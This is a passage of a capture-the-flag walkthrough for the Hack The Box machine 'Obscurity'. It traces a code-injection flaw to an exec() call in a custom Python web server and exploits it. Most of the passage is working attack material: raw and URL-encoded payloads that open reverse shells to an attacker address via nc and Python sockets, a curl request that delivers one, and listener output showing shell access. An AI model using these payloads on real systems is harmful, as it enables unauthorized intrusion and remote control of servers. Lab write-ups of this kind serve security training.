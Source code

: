     develop                 [Status: 200, Size: 5892, Words: 1806, Lines: 171]
    :: Progress: [4614/4614] :: 461 req/sec :: Duration: [0:00:10] :: Errors: 0 ::

   URL to Source Code: http://obscurity.htb:8080/develop/SuperSecureServer.py

4. Reading the source code we find a voulnerable exec-function on line 139.
    exec(info.format(path)) # This is how you do string formatting, right?

   This can also be identified using bandit.
    root@p3:/opt/htb/machines/obscurity# bandit SuperSecureServer.py
      --------------------------------------------------
      >> Issue: [B102:exec_used] Use of exec detected.
         Severity: Medium   Confidence: High
         Location: SuperSecureServer.py:139
         More Info: https://bandit.readthedocs.io/en/latest/plugins/b102_exec_used.html
      138	            info = "output = 'Document: {}'" # Keep the output for later debug
      139	            exec(info.format(path)) # This is how you do string formatting, right?
      140	            cwd = os.path.dirname(os.path.realpath(__file__))

      --------------------------------------------------

   The code tells us that path = urllib.parse.unquote(path). Looking at urlparse we find that everything behind / will be path.
   This is where we should execute our code (http://obscurity.htb:8080/EXPLOIT-CODE-HERE)
    >>> o = urlparse('http://www.cwi.nl:80/%7Eguido/Python.html')
    >>> o
    ParseResult(scheme='http', netloc='www.cwi.nl:80', path='/%7Eguido/Python.html',
                params='', query='', fragment='')

5. Setup a local nc listener and execute a python reverse shell. Break the exec-funtion using '; at the beginning of line
   and end it with #. Below are two diffrenet types of shell approaches.

    Native:
    1. OS System, NC Reverse
      ';os.system("rm /tmp/f ; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1|nc 10.10.14.9 4488 > /tmp/f");#
    2. Python Reverse (Pentestmonkey)
      ';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);#

    URL-Encoded:
    1. OS System, NC Reverse
      %27%3Bos.system%28%22rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.9%204488%20%3E%20%2Ftmp%2Ff%22%29%3B%23
    2. Python Reverse (Pentestmonkey)
      %27%3Bimport%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.9%22%2C4488%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%23


    root@p3:/opt/htb/machines/obscurity# curl -X POST http://obscurity.htb:8080/%27%3Bos.system%28%22rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.9%204488%20%3E%20%2Ftmp%2Ff%22%29%3B%23
    root@p3:/opt/htb/machines/obscurity# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.9] from (UNKNOWN) [10.10.10.168] 60698
    $ id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
